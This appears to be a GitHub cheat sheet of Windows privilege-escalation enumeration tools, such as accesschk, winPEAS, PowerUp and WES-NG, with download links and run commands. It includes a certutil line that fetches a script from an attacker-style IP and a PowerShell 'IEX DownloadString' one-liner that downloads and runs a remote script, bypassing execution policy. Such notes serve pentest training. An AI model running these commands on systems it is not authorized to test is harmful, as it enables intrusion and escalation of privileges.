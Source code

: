 
# **📁 Automated Tools for Privilege Escalation**

## 🛠 EXE Tools (Run as .exe files)

You upload these `.exe` files to the target system and run them. They show you where the system might be weak.

# accesschk.exe

AccessChk is an old but still trustworthy tool **for checking user access control rights.**

You can use it to check whether a user or group has access to files, directories, services, and registry keys.

The downside is more recent versions of the program spawn a GUI “accept EULA” popup window. When using the command line, we have to use an older version which still has an **/accepteula** command line option.

```
https://xor.cat/assets/other/Accesschk.zip
```

**Always do this first**

```
accesschk.exe /accepteula (always do this first!!!!!)
```

**Find all weak file permission per drive.**

```
accesschk.exe -uwqs Users c:\*.*

accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

**Find all weak folder permission per drive**

```
accesschk.exe -uwdqs Users c:\

accesschk.exe -uwdqs "Authenticated Users" c:\
```

### ✅ winPEAS.exe

- **Job:** Checks for many weaknesses: services, passwords, file access, registry, etc.
- **Download:** https://github.com/carlospolop/PEASS-ng/releases
- **Download:**  https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
- **Run it:**

```
winPEAS.exe
```
Before running, we need to add a registry key and then reopen the command prompt:

```
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

Run all checks while avoiding time-consuming searches:

```
.\winPEASany.exe quiet cmd fast
```

Run specific check categories:

```
.\winPEASany.exe quiet cmd systeminfo
```
### ✅ Seatbelt.exe

- **Job:** Shows security info like saved passwords, browser history, installed apps.
- **Source:** https://github.com/GhostPack/Seatbelt
- ⚠️ You must compile it  before use.

### ✅ SharpUp.exe

- **Job:** Looks for ways to become admin, like bad file or service permissions.
- **Source:** https://github.com/GhostPack/SharpUp
- ⚠️ Needs to be compiled.

### ✅ Watson.exe

- **Job:** Finds known Windows bugs (CVEs) that work on this system.
- **Source:** https://github.com/rasta-mouse/Watson
- ⚠️ Compile before use.

---

## 💻 PowerShell Scripts (.ps1 files)

These are text files you run in PowerShell to look for weak spots.

### ✅ PowerUp.ps1

- **Job:** Checks services, registry, DLLs, paths, etc. for privilege issues.
- **Download (local):** certutil -urlcache -split -f "http://10.17.68.184:8000/PowerUp.ps1" PowerUp.ps1
- **Download:** https://github.com/PowerShellMafia/PowerSploit
- **Download:** https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps
- **Use it:**

```
CMD> powershell -exec bypass

PS> . .\PowerUp.ps1

PS> Invoke-AllChecks

# Run the Invoke-AllChecks function to start checking for common privilege escalation misconfigurations.
```
or
```
C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"
```



### ✅ Sherlock.ps1

- **Job:** Finds missing Windows updates that attackers can use.
- **Download:** https://github.com/rasta-mouse/Sherlock
- **Use it:**

```
Import-Module .\Sherlock.ps1
Find-AllVulnerabilities
```

### ✅ JAWS-enum.ps1

- **Job:** Checks logs, users, firewall, AV, and more.
- **Download:** https://github.com/411Hall/JAWS
- **Use it:**

```
.\JAWS-enum.ps1
```

---

## 🐍 Python Tools (Run on your system)

These tools read Windows version info and suggest known bugs.

### ✅ windows-exploit-suggester.py

- **Job:** Shows possible Windows bugs based on system info.
- **Download:** https://github.com/AonCyberLabs/Windows-Exploit-Suggester
- **Steps:**

```
systeminfo > sysinfo.txt          # Get system info from target
./windows-exploit-suggester.py -i sysinfo.txt
```

### ✅ Windows Exploit Suggester - NG (WES-NG)

- **Job:** Updated version of the above tool.
- **Download:** https://github.com/bitsadmin/wesng
- **Steps:**

```
./wes.py --update                 # Update CVE list
systeminfo > sysinfo.txt          # Get system info
./wes.py sysinfo.txt              # Get exploit suggestions
```

### ✅ Metasploit Exploit Suggester

- **Job:** Shows escalation options in Meterpreter session.
- **Module: `post/multi/recon/local_exploit_suggester`**


---
winPEASany.exe
Seatbelt.exe
PowerUp.ps1
SharpUp.exe